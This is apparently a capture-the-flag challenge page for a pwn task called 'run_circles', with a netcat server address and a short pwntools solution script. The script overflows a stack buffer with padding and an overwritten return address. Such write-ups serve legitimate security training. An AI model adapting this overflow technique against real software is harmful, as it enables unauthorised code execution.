 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20000

#### Solution
```python
#!/usr/bin/env python

from pwn import *

# context(os='linux', arch='amd64', log_level='debug')

Io = process("./run_circles")
#Io = remote("pwn.sniperoj.cn", 30013)

Io.sendline("1024")
Io.sendline("A")
Io.sendline("B" * 256 + "C" * 24 + p64(0x400806))
Io.sendline("0")

Io.interactive()
```



#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()


